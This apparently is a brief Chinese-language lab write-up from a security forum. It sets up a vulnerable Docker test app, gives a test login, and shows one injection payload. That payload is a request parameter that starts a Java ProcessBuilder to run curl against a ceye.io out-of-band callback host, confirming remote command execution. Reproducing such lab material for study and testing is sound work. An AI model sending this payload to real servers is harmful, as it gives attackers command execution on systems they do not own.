 URL:https://threathunter.org/topic/593d562353ab369c55425a90

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30082
```
登录账号：keith
登录密码：melbourne

```
ceye.io测试
&_(new+java.lang.ProcessBuilder("/usr/bin/curl","http://spring.test.ceye.io/")).start()=iswin
```

